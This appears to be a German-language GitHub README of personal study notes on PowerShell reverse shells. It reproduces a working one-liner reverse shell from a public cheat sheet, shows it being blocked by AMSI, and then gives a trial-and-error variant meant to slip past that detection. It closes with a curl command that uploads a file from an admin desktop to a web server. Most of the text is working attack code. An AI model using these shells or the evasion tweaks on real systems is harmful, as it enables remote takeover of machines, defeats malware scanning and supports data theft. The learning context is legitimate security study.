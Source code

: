 # Learning zur Reverse Shell



One Liner Reverse Shell in einer Powershell
```
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.0.0.1",4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
Quelle: https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#powershell

In Powershell umgeschrieben sieht der Code so aus:

```powershell
New-Object System.Net.Sockets.TCPClient("10.0.0.1",4242);
$stream = $client.GetStream()

[byte[]]$bytes = 0..65535|%{0}
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i)
    $sendback = (iex $data 2>&1 | Out-String )
    $sendback2  = $sendback + "PS " + (pwd).Path + "> "
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
    $stream.Write($sendbyte,0,$sendbyte.Length)
    $stream.Flush()}
    
$client.Close()
```

Führt man den Code in der Powershell aus. Kommt folgeden Fehlermeldung:

![image](https://github.com/user-attachments/assets/a9f07a42-b9cc-44c4-8627-e6568bd53662)

Die Fehlermeldung wird durch das Antimalware Scan Interface (kurz. AMSI) aufgerufen. AMSI analysiert den eingegeben Code auf Strukturen bekannter Schadsoftware. [Microsoft](https://learn.microsoft.com/de-de/windows/win32/amsi/antimalware-scan-interface-portal) nutzt AMSI für:
- Benutzerkontensteuerung bzw. UAC (Erhöhung von Rechten für EXE-, COM-, MSI- oder ActiveX-Installation)
- PowerShell (Skripts, interaktive Verwendung und dynamische Codeauswertung)
- Windows Script Host („wscript.exe“ und „cscript.exe“)
- JavaScript und VBScript
- VBA-Makros in Office

AMSI ist kein unbekanntes System, weshalb es einigen Anwendern gelungen einen Bypass zu erschaffen. Dazu wird die `amsi.dll` mit dem Ziel manipuliert, dass bosthafter Code als sauber zu indentifiziert wird. Dies ist ein Thema für sich, weshalb für diese Arbeit ein anderer Bypass gewählt wurde. Für die Analyse wurde der Code Zeile für Zeile ausgeführt. So konnte bestimmt werden, an welcher Stelle AMSI ausschlägt:

```
$sendback2  = $sendback + "PS " + (pwd).Path + "> "
```
"pwd": Gibt den aktuellen Pfad wieder. Es scheint, als ist "pwd" in diesem Kontext ein Signal für Schadsoftware/Skript. Alternative kann in Powershell der Befehl ```GET-Location``` ausgeführt werden.

Durch Trial and Error ensteht der folgende angepasste Powershell-Code:
```
$hmGuXO='127.0.0.1'
$port = 4422
$client = New-Object System.Net.Sockets.TCPClient($hmGuXO,$port);
$SAAAD = $client.GetStream()

[byte[]]$bytes = 0..65535|%{0}

$sendbyte = ([text.encoding]::ASCII).GetBytes('PS '+(Get-Location).Path+'> ')
$SAAAD.Write($sendbyte,0,$sendbyte.Length)

while(($i = $SAAAD.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i)
    $sendback = (iex $data 2>&1 | Out-String )
   $sendback2  = $sendback + "PS " + (pwd).Path + "> "
   $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
  $SAAAD.Write($sendbyte,0,$sendbyte.Length)
 $SAAAD.Flush()}
    
$client.Close()

```


---
28.01.: Code angepasst vom Server -> Upload zum Webserver mit 
```
curl -X POST -F "file=@C:/Users/admin/Desktop/screenshot.png" http://127.0.0.1:5000/upload
```
